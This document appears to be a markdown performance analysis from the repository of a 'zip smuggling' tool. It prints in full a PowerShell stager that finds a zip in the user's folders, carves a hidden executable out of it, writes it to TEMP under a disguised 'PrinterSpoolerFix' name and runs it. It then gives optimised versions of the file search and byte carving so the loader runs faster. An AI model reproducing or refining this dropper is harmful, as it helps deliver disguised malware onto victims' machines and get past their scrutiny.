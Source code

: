 # PowerShell Performance Analysis for Zip Smuggling

## Generated Command Analysis
The command generated by zip_smuggle.py with obfuscation level 1:

```powershell
$wu="testarch";
$uk=@("$Env:USERPROFILE\Downloads","$Env:USERPROFILE\Desktop","$Env:USERPROFILE\Documents","$PWD");
$zw=$null;
foreach($p in $uk){
    try{
        $zw=(Get-ChildItem -Path $p -Filter "*$wu.zip" -ErrorAction Stop)[0].FullName;
        break
    }catch{}
};
if(-not $zw){
    $zw=(Get-ChildItem -Path $Env:USERPROFILE -Filter "*$wu.zip" -Recurse -ErrorAction SilentlyContinue|Select-Object -First 1).FullName
};
if(-not $zw){exit};
$hp=[System.IO.File]::ReadAllBytes($zw);
$dn=(0..($hp.Length-4)|Where-Object{$hp[$_] -eq 0x55 -and $hp[$_+1] -eq 0x55 -and $hp[$_+2] -eq 0x55 -and $hp[$_+3] -eq 0x55})[0]+4;
$j=806400;
$oya=$hp[$dn..($dn+$j-1)];
$q="$Env:TEMP\PrinterSpoolerFix20250610102237.exe";
[System.IO.File]::WriteAllBytes($q,$oya);
Start-Process -FilePath $q
```

## Performance Bottlenecks Identified

### 1. **Recursive File Search (MAJOR BOTTLENECK)**
```powershell
$zw=(Get-ChildItem -Path $Env:USERPROFILE -Filter "*$wu.zip" -Recurse -ErrorAction SilentlyContinue|Select-Object -First 1).FullName
```
**Issue**: This searches the ENTIRE user profile recursively, which can include:
- Hundreds of thousands of files
- Network drives
- Slow storage locations
- System folders with restricted access

**Impact**: Can take 20-60+ seconds depending on system

### 2. **Inefficient Byte Pattern Search**
```powershell
$dn=(0..($hp.Length-4)|Where-Object{$hp[$_] -eq 0x55 -and $hp[$_+1] -eq 0x55 -and $hp[$_+2] -eq 0x55 -and $hp[$_+3] -eq 0x55})[0]+4;
```
**Issue**: Creates a range object for every byte position and checks each one individually
**Impact**: For large files (800KB+), this creates 800,000+ comparisons

### 3. **Large Array Slicing**
```powershell
$oya=$hp[$dn..($dn+$j-1)];
```
**Issue**: PowerShell array slicing can be slow for large ranges (806KB in this case)

## Solutions

### Immediate Fix - Optimize File Search
Replace the recursive search with a more targeted approach:

```powershell
# Current slow approach
if(-not $zw){
    $zw=(Get-ChildItem -Path $Env:USERPROFILE -Filter "*$wu.zip" -Recurse -ErrorAction SilentlyContinue|Select-Object -First 1).FullName
};

# Optimized approach - search only common locations
if(-not $zw){
    $commonPaths = @(
        "$Env:USERPROFILE\Downloads",
        "$Env:USERPROFILE\Desktop", 
        "$Env:USERPROFILE\Documents",
        "$Env:TEMP",
        "$PWD"
    );
    foreach($path in $commonPaths){
        if(Test-Path $path){
            $found = Get-ChildItem -Path $path -Filter "*$wu.zip" -ErrorAction SilentlyContinue | Select-Object -First 1;
            if($found){$zw=$found.FullName; break}
        }
    }
};
```

### Better Fix - Use .NET Methods for Byte Search
```powershell
# Instead of PowerShell Where-Object loop
$pattern = [byte[]]@(0x55,0x55,0x55,0x55);
$dn = -1;
for($i=0; $i -lt ($hp.Length-3); $i++){
    if($hp[$i] -eq 0x55 -and $hp[$i+1] -eq 0x55 -and $hp[$i+2] -eq 0x55 -and $hp[$i+3] -eq 0x55){
        $dn = $i + 4; break
    }
};
```

### Best Fix - Use System.IO.MemoryMappedFiles for Large Files
For very large embedded files, memory mapping would be more efficient.

## Recommendations

1. **Modify zip_smuggle.py** to generate more efficient PowerShell
2. **Remove recursive search** - it's the #1 performance killer
3. **Optimize byte pattern matching** using simple for-loop instead of Where-Object
4. **Consider file size limits** - warn users about performance with large embedded files

## Testing
To verify the bottleneck, time each section:
```powershell
Measure-Command { # file search code here }
Measure-Command { # byte pattern search code here }
Measure-Command { # file extraction code here }
